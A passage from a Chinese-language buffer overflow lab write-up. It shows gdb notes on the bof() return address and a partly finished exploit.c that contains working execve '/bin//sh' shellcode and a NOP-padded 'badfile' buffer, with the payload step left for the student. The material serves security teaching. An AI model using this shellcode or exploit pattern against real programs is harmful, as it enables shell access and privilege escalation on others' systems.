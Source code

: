 可见，`bof()`函数的返回地址为 `0x080484ff`

```
disas bof
```

![image-20220321223620870](BufferOverflow/image-20220321223620870.png)

执行完` bof()`后的地址为` 0x0804849c`。` q`退出gdb。

### 标记缓冲区

> 这有部分完成的漏洞利用代码`exploit.c`。这段代码的目标是为“badfile”构造内容。在这段代码中，shellcode 是给你的。还需要完成其余部分。

```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0" /* xorl    %eax,%eax              */
    "\x50"     /* pushl   %eax                   */
    "\x68"
    "//sh" /* pushl   $0x68732f2f            */
    "\x68"
    "/bin"     /* pushl   $0x6e69622f            */
    "\x89\xe3" /* movl    %esp,%ebx              */
    "\x50"     /* pushl   %eax                   */
    "\x53"     /* pushl   %ebx                   */
    "\x89\xe1" /* movl    %esp,%ecx              */
    "\x99"     /* cdq                            */
    "\xb0\x0b" /* movb    $0x0b,%al              */
    "\xcd\x80" /* int     $0x80                  */
    ;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```